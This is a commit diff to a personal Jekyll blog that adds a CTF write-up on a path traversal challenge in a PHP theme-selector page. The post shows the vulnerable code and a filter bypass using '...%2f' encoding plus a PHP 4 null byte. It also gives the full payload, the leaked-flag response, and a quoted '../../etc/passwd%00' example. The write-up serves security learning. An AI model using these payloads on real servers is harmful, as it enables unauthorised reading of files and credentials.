

Before and after one commit to mperf/mperf.github.io, a Jekyll site: the page built from categories.html, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
path traversal challenge article

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -56,6 +56,6 @@ google_ads: ca-pub-5824807230614614
 
 permalink: /:title/
 markdown: kramdown
-paginate: 1
+paginate: 4
 paginate_path: "/blog/page:num/"
 date_format: "%b %-d, %Y"
--- /dev/null
+++ b/_posts/22-03-09-path-traversal-challenge.md
@@ -0,0 +1,297 @@
+---
+layout: post
+title: "Path Traversal Challenge"
+date:   2022-01-27 17:16:58 +0100
+categories: [hacking,path traversal]
+tags: [hacking, path traversal, CTF, challenge, LFI, RFI]
+author: Perf
+---
+
+In this article I will show you a basic "path traversal" vulnerability I've found in a CTF challenge.
+
+## Description
+
+**_A simple website that allows you to choose between light, dark and ... nah, just these two. P.s. PHP version 4_**
+
+---
+
+# The code
+
+```php
+
+<?php
+
+if(!isset($_GET["tema"])) $path = "light.css";  // Default
+else {
+    $path = $_GET["tema"];
+    if (preg_match("/..\//", $path)) {
+        $path = str_replace('../', './' , $path);
+        $error = false;
+        $arr = explode(".", $path);
+        $estensione = $arr[count($arr)-1];
+
+        if($estensione != "css"){
+            $error = true;
+            $path = substr($path, 0, -3) . "css";
+        }
+    }
+}
+
+$css = "static/css/" . $path;
+
+?>
+
+
+<html>
+  <head>
+    <meta charset="utf-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
+    <title>L/D</title>
+
+    <!-- Bootstrap CSS -->
+    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
+
+    <style>
+        <?php echo file_get_contents($css); ?>
+    </style>
+
+    <!-- Bootstrap JavaScript -->
+    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
+    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
+    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
+  </head>
+
+  <body>
+    <div class="text-center my-3">
+        <h1>Selettore di tema: Light & Dark</h1>
+        <p class="pt-3" style="font-size:23;">
+            <i>Hai mai sognato di poter cambiare il tema con un semplice click? Finalmente puoi!</i>
+        </p>
+    </div>
+
+    <div class="row mt-5 w-100">
+        <div class="col-2 col-md-4"> </div>
+        <div class="col text-center">
+            <button class="p-2" onclick="window.location.href='index.php?tema=light.css'">Tema chiaro</button>
+        </div>
+        <div class="col text-center">
+            <button class="p-2" onclick="window.location.href='index.php?tema=dark.css'">Tema scuro</button>
+        </div>
+        <div class="col-2 col-md-4"> </div>
+    </div>
+
+    <div class="error mt-5 text-center">
+        <?php if($error) echo "<img src='static/img/zeb.jpg' style='width: 50vw;'/>"; ?>
+    </div>
+
+  </body>
+</html>
+
+```
+
+## code breakdown
+
+this page takes a GET request with the name of the stylesheet so you can choose from dark and light mode.
+
+```php
+
+if(!isset($_GET["tema"])) $path = "light.css";  // Default
+else {
+    $path = $_GET["tema"];
+
+```
+
+### The Filters
+
+here is the interesting part, we found two filters and we can assume that they prevent a **Path Traversal Vulnerabilty**
+
+```php
+if (preg_match("/..\//", $path)) {
+        $path = str_replace('../', './' , $path); //changes ../ to ./
+        $error = false;
+        $arr = explode(".", $path);
+        $estensione = $arr[count($arr)-1];
+
+        if($estensione != "css"){  //checks if the file extension is .css
+            $error = true;
+            $path = substr($path, 0, -3) . "css";
+        }
+    }
+
+```
+---
+# Let's Hack!
+
+## Hacking the filters
+so now we need to find somewhere a flag.txt file... let's try to find a wokaround to **The Filters**
+
+### First Filter - the regex
+
+The regex in the if statment detects every ```..```, ```/```, ```\``` and ```../``` characters, then it replace every ```../ ``` with ```./```.<br /><br />
+We need to encode our payload to fool the parser, we can try with **%2f**, the url uncoded version of ```/```. <br /><br />For the ".." part we need to be more creative... <br /><br />yeah that's it! Wait you didn't get it? it's literally ```...```    :0<br /><br /><br />
+
+Let's try if it works! I'll run a local test with some  ```php echo(); ```
+
+```php
+
+    $path = $_GET["tema"];
+    echo('payload:  '.$path);
+
+
+    if (preg_match("/..\//", $path)) {
+            $path = str_replace('../', './' , $path); //changes ../ to ./
+            $error = false;
+
+            echo("after regex:  " . $path);
+
+            $arr = explode(".", $path);
+            $estensione = $arr[count($arr)-1];
+
+            if($estensione != "css"){  //checks if the file extension is .css
+                $error = true;
+                $path = substr($path, 0, -3) . "css";
+            }
+        }
+
+/*
+
+    Input:
+        ...%2f...%2fflag
+    Output:
+        payload: .../.../flag
+        after regex:   ../../flag
+*/
+
+ ```
+
+## it works!
+
+## Second Filter
+Ok so, now we have to change our file extension to .css if we want to pass this filter... or we have to?<br /><br />
+We get a little hint in the description: **_P.s. PHP version 4_**... PHP 4 has a huge hole in it, the **Null Byte Injection**
+<br /><br />
+Here's an example:
+
+ ```php
+
+<?php
+    $file = $_GET['file']; // "../../etc/passwd%00"
+    if (file_exists('/home/wwwrun/'.$file.'.php')) {
+        // file_exists will return true as the file /home/wwwrun/../../etc/passwd exists
+        include '/home/wwwrun/'.$file.'.php';
+        // the file /etc/passwd will be included
+    }
+?>
+```
+You can find this example and why it works [here](https://www.php.net/manual/en/security.filesystem.nullbytes.php)<br /><br />
+
+Now Let's try a payload in our local test environment:
+
+```php
+
+    $path = $_GET["tema"];
+    echo('payload:  '.$path);
+
+    if (preg_match("/..\//", $path)) {
+        $path = str_replace('../', './' , $path);
+        $error = false;
+
+        echo("after regex:  " . $path);
+
+        $arr = explode(".", $path);
+        $estensione = $arr[count($arr)-1];
+
+        if($estensione != "css"){
+            $error = true;
+            $path = substr($path, 0, -3) . "css";
+        }
+    }
+}
+
+$css = "static/css/" . $path;
+echo('final path:  ' . $css);
+
+/*
+
+    Input:
+        ...%2f...%2fflag.txt%00.css
+    Output:
+        payload: .../.../flag
+        after regex:   ../../flag
+        final path:  static/css/../../flag.txt.css
+*/
+
+ ```
+
+
+Now let's combine all and try it on the server with some random ```../ ```<br /><br />
+
+payload: ```...%2f...%2f...%2f...%2f...%2fflag.txt%00.css ```<br /><br />
+
+Response:
+
+```php
+HTTP/1.1 200 OK
+Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
+Content-Length: 1927
+Content-Type: text/html
+Date: Wed, 09 Mar 2022 16:46:19 GMT
+Expires: Thu, 19 Nov 1981 08:52:00 GMT
+Pragma: no-cache
+Server: Apache/2.2.22 (Ubuntu)
+Vary: Accept-Encoding
+X-Powered-By: PHP/4.4.0
+Connection: close
+
+
+
+<html>
+  <head>
+    <meta charset="utf-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
+    <title>L/D</title>
+
+    <!-- Bootstrap CSS -->
+    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
+
+    <style>
+        flag{l1ght_1s_f0r_n00bs_d4rk_1s_f0r_h4ck3rs}    </style>
+
+    <!-- Bootstrap JavaScript -->
+    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
+    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
+    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
+  </head>
+
+  <body>
+    <div class="text-center my-3">
+        <h1>Selettore di tema: Light & Dark</h1>
+        <p class="pt-3" style="font-size:23;">
+            <i>Hai mai sognato di poter cambiare il tema con un semplice click? Finalmente puoi!</i>
+        </p>
+    </div>
+
+    <div class="row mt-5 w-100">
+        <div class="col-2 col-md-4"> </div>
+        <div class="col text-center">
+            <button class="p-2" onclick="window.location.href='index.php?tema=light.css'">Tema chiaro</button>
+        </div>
+        <div class="col text-center">
+            <button class="p-2" onclick="window.location.href='index.php?tema=dark.css'">Tema scuro</button>
+        </div>
+        <div class="col-2 col-md-4"> </div>
+    </div>
+
+    <div class="error mt-5 text-center">
+            </div>
+
+  </body>
+</html>
+```
+
+## ha ha u fool! it works!
+<br /><br />
+
+<center>
+<img src="https://i.redd.it/8kee97gbycw11.png">
+</center>
````
Also changed, not shown: 2 other files.
